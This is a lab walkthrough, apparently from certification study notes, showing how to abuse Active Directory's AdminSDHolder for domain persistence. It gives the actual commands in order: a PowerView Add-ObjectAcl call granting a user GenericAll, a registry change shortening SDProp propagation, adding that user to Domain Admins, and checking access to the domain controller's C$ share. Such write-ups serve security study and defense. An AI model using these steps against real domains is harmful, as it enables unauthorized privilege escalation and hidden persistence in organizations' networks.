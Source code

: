 # Exploiting Active Directory Objects

**AdminSDHolder** is an Active Directory container with the default security permissions, it is used as a template for AD accounts and groups, such as Domain Admins, Enterprise Admin, etc. to protect them from unintentional modification of permissions.

If a user account is added into the access control list of **AdminSDHolder**, the user will acquire “**GenericAll**” permissions which is equivalent to domain administrators.

1. create the payload and upload to target then set up the listener
2. upload **PowerTools-Master** folder to the target system.

{% embed url="https://github.com/PowerShellEmpire/PowerTools?tab=readme-ov-file" %}

3. Access the target shell, then go to `C:\WIndows\System32` , type `powershell`&#x20;

As we have access to PowerShell access with admin privileges, we can add a standard user Martin in the CEH domain to the AdminSDHolder directory and from there to the Domain Admins group, to maintain persistence in the domain.

4. Navigate to `C:\Users\Administrator\Downloads\PowerView`where the folder we upload before, type `Import-Module ./powerview.psm1`&#x20;
5. To add user named **Martin** to ACL, type `Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName Martin -Verbose -Rights All`&#x20;
6. To check the permissions assigned to **Martin**, type: `Get-ObjectAcl -SamAccountName "Martin" -ResolveGUIDs`&#x20;

We can see that user Martin now has GenericAll active directory rights. Normally that changes in ACL will propagate automatically after 60 minutes, we can enter the following command to reduce the time interval of SDProp to 3 minutes.

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /V AdminSDProtectFrequency /T REG_DWORD /F /D 300
```

> (Microsoft doesn’t recommend the modification of this setting, as this might cause performance issues in relation to LSASS process across the domain.)

7. Add user **Martin** to **Domain Admins** group as he is already having all the permissions. `net group "Domain Admins" Martin /add /domain`&#x20;
8. To verify it, log as **Martin** and in cmd try access `dir \\[ip domain]\C$` will list the C:/ Drive.

We can see that the Domain Controller is now accessible to Martin and thus domain persistence has been established. Can also use the additional commands in the table below to extract sensitive information such as users, groups, domains, and other resources from the target AD environment.

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
